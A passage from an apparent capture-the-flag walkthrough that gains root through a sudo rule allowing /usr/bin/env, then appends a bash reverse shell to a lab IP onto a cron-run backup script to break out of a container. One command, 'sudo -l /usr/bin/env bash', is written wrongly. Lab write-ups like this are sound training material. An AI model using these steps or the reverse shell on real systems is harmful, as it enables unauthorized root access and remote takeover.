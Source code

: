 Is located here: `cat /var/www/flag2_QMW7JvaY2LvK.txt`

### Privilege Escalation / Privileged Access

If we run: `sudo -l` we can see we can run `/usr/bin/env`:

```text
User www-data may run the following commands on b2deba11a79a:
    (root) NOPASSWD: /usr/bin/env
```

The `env` command is used to locate programs based on the `PATH` environment variable. This means we can run basically any command. So, we do this:

```bash
sudo -l /usr/bin/env bash
```

And we now have a primitive `root` prompt. Again, since even basic tools are not installed, we can't easily "upgrade" this shell. It's messy but it works.

#### Flag 3 of 4

Is located here: `cat /root/flag3.txt`

#### Flag 4 of 4

We're logged in as `root` in this primitive shell, but we still can't seem to do much, because we're running from within a container.

From snooping around, we find that there is a backup process in `/opt/backups` that appears to work with a folder that is shared between this container and the host (e.g. `/root/container`):

```bash
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Sep 29 07:49 ..
-rwxr--r-- 1 root root     111 Sep 29 08:20 backup.sh
-rw-r--r-- 1 root root 2949120 Sep 29 08:20 backup.tar

```

Inside of that `backup.sh` we have:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

We can also tell from the timestamp that this seems to run regularly. So, we might append a reverse shell command to connect back to a *NEW* Netcat instance that is running on port `9001` (remember that our current connection is already using port `9000`):

```bash
echo "bash -i >& /dev/tcp/10.6.90.119/9001 0>&1" >> backup.sh
```

> **TIP:** Remember that `>` creates or overwrites the file. `>>` create or appends to the end of the file.
{: .prompt-tip}
